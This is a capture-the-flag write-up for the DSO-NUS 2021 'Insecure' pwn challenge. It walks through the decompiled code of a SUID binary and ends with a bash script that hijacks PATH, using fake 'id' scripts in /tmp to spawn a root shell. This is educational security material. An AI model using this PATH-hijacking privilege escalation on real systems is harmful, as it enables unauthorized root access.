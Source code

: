 ```yaml
---
title : "Insecure [Pwn]"
categories: DSO-NUS2021
---
```


Exploit a program that changes user privilege to root with `setuid()` to escalate privilege. First pwn challenge from DSO-NUS 2021.

# Challenge Description
```
Someone once told me that SUID is a bad idea. Could you show me why?

This challenge server can be accessed here:

(Any one of the options below is fine)
(Suggested access via 'nc')
nc ctf-85ib.balancedcompo.site 9999
nc ctf-sn3y.balancedcompo.site 9999
nc ctf-rv6w.balancedcompo.site 9999
nc ctf-ptb1.balancedcompo.site 9999
nc ctf-f3jj.balancedcompo.site 9999
nc ctf-4q22.balancedcompo.site 9999
nc ctf-7jca.balancedcompo.site 9999
nc ctf-ea38.balancedcompo.site 9999
nc ctf-jfi4.balancedcompo.site 9999
nc ctf-ks5n.balancedcompo.site 9999

Files (Any of the links are fine):
https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure
https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure

*Debug the Pwn challenges locally on your system before connecting to the remote challenge server to exploit and get the flag.

 >> Flag format conversion may have to be done for this challenge (Refer to notifications)
```

# Solution

Throw the binary into ghidra and navigate to the main function. This is the decompiled main function:

```c
undefined8 FUN_00400746(void)
{
  __uid_t __uid;
  __uid_t __uid_00;
  int iVar1;
  undefined8 uVar2;
  
  __uid = getuid();
  puts("I am a SUID binary and can run in varying levels of privilege!");
  puts("\nNow, I run in a less privileged context.");
  system("id");
  __uid_00 = geteuid();
  iVar1 = setuid(__uid_00);
  if (iVar1 == 0) {
    puts("\nNext, I wil run in a more privileged context.");
    system("id");
    setuid(__uid);
    puts("\nOnce I am done, as a good practice, I should return my privileges.");
    puts("And I run in a less privileged context again.");
    system("id");
    uVar2 = 0;
  }
  else {
    printf("Eh? Something went wrong leh.");
    printf("Can contact some geeks about this? Thanks!");
    perror("seteuid");
    uVar2 = 0xffffffff;
  }
  return uVar2;
}
```

There's no input taken, hmm... Since I had no idea on what to do at this point, I connected to their server via nc and looked around.

In the root directory, there's a `flag.txt` but it can only be read with root privilege. Another useful information is that all the files and folders do not have write permission for the current user except for `/tmp`. So we need to perform privilege escalation by using the second `system("id")` in the program to spawn a shell with root privilege.

To do this, we can create a script in `/tmp` to replace the original `id` script such that it calls `/bin/bash` the second time it is called. Finally, to make sure that `system("id")` properly calls our script, we need to `chmod +x` and add the directory to `PATH`.

# Final Script
```bash
echo "#!/bin/bash
/tmp/layer;" > /tmp/id

echo "#!/bin/bash
echo '#!/bin/bash
/bin/bash;' > /tmp/id" > /tmp/layer

chmod +x /tmp/id

chmod +x /tmp/layer

export PATH=/tmp:$PATH

cat flag.txt
```

